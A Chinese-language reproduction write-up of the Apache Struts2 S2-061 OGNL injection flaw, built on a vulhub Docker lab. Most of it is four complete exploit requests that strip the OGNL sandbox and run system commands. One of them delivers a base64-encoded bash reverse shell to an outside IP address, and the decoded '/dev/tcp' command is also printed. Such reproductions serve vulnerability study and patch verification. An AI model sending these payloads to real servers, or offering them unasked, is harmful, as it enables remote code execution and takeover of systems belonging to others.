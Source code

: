 # 0x00 软件介绍
struts2：面向java ee的一款java web开发框架

# 0x01 复现环境
使用环境：vulhub中的环境：https://github.com/vulhub/vulhub/tree/master/struts2/s2-061  
复现版本：Apache Struts 2.5.25

# 0x02 环境搭建
一台云上的vps  
git clone https://github.com/vulhub/vulhub  
cd ./vulhub/  
cd ./struts2/  
cd ./s2-061/  
systemctl start docker  
docker-compose up -d

# 0x03 利用条件
此次漏洞只是S2-059修复的一个绕过，并且本次利用的核心类org.apache.commons.collections.BeanMap在commons-collections-x.x.jar包中，但是在官方的最小依赖包中并没有包含这个包。所以即使扫到了支持OGNL表达式的注入点，如果没有使用这个依赖包，也还是没办法进行利用

# 0x04 影响版本
Apache Struts 2.0.0 - Struts 2.5.25

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

浏览器下访问
```
http://ybdt.best:8080/?id=%25%7b+%27test%27+%2b+(2000+%2b+20).toString()%7d
```
查看返回页面的源码，如下图，包含“test2020”表示漏洞存在  
![image](./0.png)

EXP1：  
```
POST /index.action HTTP/1.1
Host: ybdt.best:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 829

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("ls")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```
如下图，成功执行命令  
![image](./1.png)

EXP2：  
```
POST /index.action HTTP/1.1
Host: ybdt.best:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.110:8080/index.action
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 1361

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{
(#request.map=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + 
(#request.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) + 
(#request.map2=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) +
(#request.map2.setBean(#request.get('map').get('context')) == true).toString().substring(0,0) + 
(#request.map3=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + 
(#request.map3.setBean(#request.get('map2').get('memberAccess')) == true).toString().substring(0,0) + 
(#request.get('map3').put('excludedPackageNames',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) + 
(#request.get('map3').put('excludedClasses',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) +
(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'id'}))
}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```
如下图，成功执行命令  
![image](./2.png)

EXP3（使用get请求也可执行EXP2中的命令）：  
```
?id=%25{(%27Powered_by_Unicode_Potats0%2cenjoy_it%27).(%23UnicodeSec+%3d+%23application[%27org.apache.tomcat.InstanceManager%27]).(%23potats0%3d%23UnicodeSec.newInstance(%27org.apache.commons.collections.BeanMap%27)).(%23stackvalue%3d%23attr[%27struts.valueStack%27]).(%23potats0.setBean(%23stackvalue)).(%23context%3d%23potats0.get(%27context%27)).(%23potats0.setBean(%23context)).(%23sm%3d%23potats0.get(%27memberAccess%27)).(%23emptySet%3d%23UnicodeSec.newInstance(%27java.util.HashSet%27)).(%23potats0.setBean(%23sm)).(%23potats0.put(%27excludedClasses%27%2c%23emptySet)).(%23potats0.put(%27excludedPackageNames%27%2c%23emptySet)).(%23exec%3d%23UnicodeSec.newInstance(%27freemarker.template.utility.Execute%27)).(%23cmd%3d{%27whoami%27}).(%23res%3d%23exec.exec(%23cmd))}
```
如下图，成功执行命令  
![image](./3.png)

EXP4：  
```
POST /index.action HTTP/1.1
Host: ybdt.best:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 918

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8zNC45Mi4zNy4xODkvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```
执行后返回值为空，如下图  
![image](./4.png)  
成功反弹shell，如下图  
![image](./5.png)  
其中反弹shell的命令
```
bash -i >& /dev/tcp/34.92.37.189/1234 0>&1
```
需要经过[http://www.jackson-t.ca/runtime-exec-payloads.html](http://www.jackson-t.ca/runtime-exec-payloads.html)这个在线编码网站编码转化一下

# 0x06 踩坑记录
无

# 0x07 参考链接
https://mp.weixin.qq.com/s?__biz=MzkwODE4ODUzMg==&mid=2247483809&idx=1&sn=25e1749f84157647a301cfc870e3a496&chksm=c0cc8fbaf7bb06ac6a737ae1b445a7f102c12bccd1dd1b6947010cc566c222c83ca64ddaf55a&mpshare=1&scene=1&srcid=1217bML3jQDfcn08CNPB108Z&sharer_sharetime=1608161016302&sharer_shareid=2b3eb33f35dafb832c1be951576d9620&exportkey=AZZR%2F5D7iQswX%2FWvZ%2FReXw4%3D&pass_ticket=VW8a7oy0erYiAAYDw5uunYHI68W6JFU%2B8rOOlOztJ0ArCwSyttvTe%2BlX1ZOnHwv7&wx_header=0#rd  
https://www.cnblogs.com/backlion/p/14122528.html
